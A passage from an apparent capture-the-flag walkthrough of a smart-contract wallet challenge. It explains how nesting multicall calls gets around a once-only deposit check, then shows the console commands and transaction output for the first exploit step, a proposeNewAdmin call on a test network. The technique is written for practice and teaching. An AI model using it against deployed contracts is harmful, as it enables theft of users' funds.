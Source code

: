 ```js
function multicall(bytes[] calldata data) external payable onlyWhitelisted {
    bool depositCalled = false;
    for (uint256 i = 0; i < data.length; i++) {
        bytes memory _data = data[i];
        bytes4 selector;
        assembly {
            selector := mload(add(_data, 32))
        }
        if (selector == this.deposit.selector) {
            require(!depositCalled, "Deposit can only be called once");
            // Protect against reusing msg.value
            depositCalled = true;
        }
        (bool success, ) = address(this).delegatecall(data[i]);
        require(success, "Error while delegating call");
    }
}
```

`depositCalled` is set to false initially. The function is extracting the function selector from the data passed to it and checking if `deposit()` has been called - the flag made sure deposit is called once. So it seems impossible to call twice here.

The trick is that instead of calling `deposit()` directly with `multicall()`, we call two multicalls and within each `multicall()`, we call one `deposit()` which is allowed. The `depositCalled` flag is only local, which means separate multicalls will not affect each other. This allows us to achieve the goal, and become `admin`!

## Walkthrough

First call `proposeNewAdmin` to become `pendingAdmin`.

```js
> await getBalance(contract.address)
'0.001'
> functionSignature = {
    name: 'proposeNewAdmin',
    type: 'function',
    inputs: [
        {
            type: 'address',
            name: '_newAdmin'
        }
    ]
}
{name: 'proposeNewAdmin', type: 'function', inputs: Array(1)}
> params = [player]
['0x0b26C24d538e3dfF58F7c733535e65a6674FB3aB']
> data = web3.eth.abi.encodeFunctionCall(functionSignature, params)
'0xa63767460000000000000000000000000b26c24d538e3dff58f7c733535e65a6674fb3ab'
> await web3.eth.sendTransaction({from: player, to: instance, data})
⛏️ Sent transaction ⛏ https://goerli.etherscan.io/tx/0x9559fbfc7150e203bffe79b2110f5c52cb40f38d3f6f29e83ce52fa797429401
{blockHash: '0x0923292190ec09bfc8dbfb05e92464a098dafe7e3861f05d1548762e93ed38bd', blockNumber: 9415425, contractAddress: null, cumulativeGasUsed: 1086958, effectiveGasPrice: 4076510547, …}
```
